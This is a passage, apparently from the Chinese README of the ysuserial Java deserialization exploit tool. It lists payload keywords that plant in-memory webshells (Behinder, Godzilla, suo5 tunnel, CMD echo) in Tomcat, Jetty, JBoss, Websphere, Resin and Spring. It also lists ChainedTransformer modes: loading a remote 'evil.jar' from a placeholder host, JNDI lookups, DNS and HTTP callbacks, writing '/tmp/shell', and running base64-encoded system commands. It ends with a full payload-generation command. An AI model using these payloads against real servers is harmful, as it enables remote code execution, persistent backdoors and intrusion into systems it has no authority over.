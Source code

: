 
目前支持的直打内存马的类型包括 Tomcat、Jetty、JBoss/Wildfly、Websphere、Resin、Spring。

并可以通过关键字指定内存马的类型，如冰蝎内存马、哥斯拉 Base64 内存马、哥斯拉 RAW 内存马、CMD 命令回显马等，使用方法例子如下：

- `EX-MS-TSMSFromThread-bx`：`冰蝎` 逻辑内存马
- `EX-MS-TSMSFromThread-gz`：`哥斯拉` Base64 逻辑内存马
- `EX-MS-TSMSFromThread-gzraw`：`哥斯拉` RAW 逻辑内存马
- `EX-MS-TSMSFromThread-cmd`：`CMD` 命令回显内存马
- `EX-MS-TSMSFromThread-suo5`：`suo5` suo5 隧道马

另外还本项目目前支持了 Tocmat WebSocket、Upgrade 以及 Executor 命令执行内存马，暂未扩展成多种类型（因为相关工具不支持，需魔改），使用方法例子如下：

- `EX-MS-TWSMSFromThread` : `CMD` 命令回显 WebSocket 内存马
- `EX-MS-TEXMSFromThread` : `CMD` 命令回显 Executor 内存马
- `EX-MS-TUGMSFromJMX` : `CMD` 命令回显 Upgrade 内存马

对于一些非常规的环境，本项目还提供了基于 Java 原生的 RMI 内存马及命令回显方式，通过向 RMI 注册中心绑定一个恶意类，可以随时调用执行命令并回显，使用方法例子如下：

- `EX-MS-RMIBindTemplate-1100-su18`: `CMD` 命令回显 RMI 内存马

本工具支持的全部内存马经过测试可用，但实际受到中间件版本的限制，对于内存马的相关测试，可以参考项目 [https://github.com/su18/MemoryShell](https://github.com/su18/MemoryShell)

这里就不一一测试截图了，欢迎大家进行测试，如果问题请按文档最后的联系方式联系我。

## 针对 ChainedTransformer

本项目为其拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()`
  来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#d2hvYW1p`
- PB ：ProcessBuilder 通过 `ProcessBuilder.start()` 来执行系统命令，使用命令 `PB-lin-d2hvYW1p` / `PB-win-d2hvYW1p`
  分别在不同操作系统执行命令
- SE ：ScriptEngine - 通过 `ScriptEngineManager.getEngineByName('js').eval()` 来解析 JS 代码调用 Runtime
  执行命令，使用命令 `SE-d2hvYW1`
- DL ：DNS LOG - 通过 `InetAddress.getAllByName()` 来触发 DNS 解析，使用命令 `DL-xxxdnslog.cn`
- HL ：HTTP LOG - 通过 `URL.getContent()` 来触发 HTTP LOG，使用命令 `HL-http://xxx.com`
- BC ：BCEL Classloader - 通过 `..bcel...ClassLoader.loadClass().newInstance()` 来加载 BCEL
  类字节码，使用命令 `BC-$BCEL$xxx`
- JD ：JNDI Lookup - 通过 `InitialContext.lookup()` 来触发 JNDI 注入，使用命令 `JD-ldap://xxx/xx`
- 其他：普通命令执行 - 通过 `Runtime.getRuntime().exec()` 执行系统命令，使用命令 `whoami`

这里需要注意的是，使用 PB 执行系统命令、WF 写入文件的内容、SE 执行命令时，为了防止传参错误，需要<font color="purple">对传入的命令使用
base64 编码</font>。

除了上面的利用，项目也通过 ScriptEngineManager 执行 JS 的方式支持了 `EX-` 的写法，也就是说针对 ChainedTransformer 利用方式也可以打入内存马或回显。

**命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```

效果图：
